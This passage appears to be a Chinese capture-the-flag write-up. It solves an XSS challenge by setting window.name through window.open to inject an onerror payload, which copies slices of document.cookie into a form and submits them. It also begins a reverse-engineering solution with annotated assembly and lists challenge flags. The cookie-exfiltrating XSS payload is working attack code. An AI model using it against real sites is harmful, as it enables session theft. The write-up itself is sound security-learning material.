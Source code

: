 **`flag{B34WarE_0f_#xp1osi0N_d894cdf5db}`**

## 微积分计算小练习 2.0

卡了很久，尝试了各种 `location`、`location["hash"]`、`origin` 等 `window` 对象的属性，由于存在 `escape` 都没有成功进行 HTML 注入。

之后根据 `popup` 找到了有关 `window.open` 的文档和 `window.name` 属性的解释 [target](https://developer.mozilla.org/en-US/docs/Web/API/Window/open#target)，提到了：

> A string, without whitespace, specifying the name of the browsing context the resource is being loaded into.

因此 XSS 链条就可以构成，通过给 comment 提交 `"+name+"` 来初始化页面后，利用：

```html
<!DOCTYPE html>
<html>
<head>
    <title>Test</title>
</head>
<body>
    <script>
        var result = new URL("http://web/result");
        var payload = `<img src onerror=([{a:document.getElementsByClassName('form-control')[0].value=window.btoa(document.cookie.slice(0,16))},{b:document.getElementsByClassName('btn')[0].click()}])>`;
        window.open(result.href, 'Hello!</p>' + payload);
    </script>
</body>
</html>
```

进行注入和对 flag 的切片获取：

```log
"ZmxhZz1mbGFnJTdCeDU1Xw=="
"c3RpbGxfYWxpdmUlMjYlMw=="
"RCUzRV8lM0MrXzcwYjczMA=="
"MjFkMSU3RA=="

"flag=flag{x55_still_alive&=>_< _70b73021d1}"
```

**`flag{x55_still_alive&=>_< _70b73021d1}`**

## 逆向工程不需要 F5

逆向工程需要毅力和耐心。

在手动提取并阅读了 420+ 行汇编后就可以解出来了。

以其中一部分举例：

```s
mov     [rsp+1D8h+k], 0
cmp     [rsp+1D8h+k], 4         // for (k = 0; k < 4)
jge     loc_140001271
mov     [rsp+1D8h+m], 0
cmp     [rsp+1D8h+m], 8
jge     short loc_140001260     // for (m = 0; m < 8)
lea     r14, [rsp+1D8h+k]       // r14 = &k
lea     r13, [rsp+1D8h+ret_3]   // r13 = &ret_3

<!-- call    sub_140001550 -->

mov     rdx, r13                // rdx = &ret_3
mov     r14d, [r14]             // r14 = k
mov     r15d, 2                 // r15 = 2

```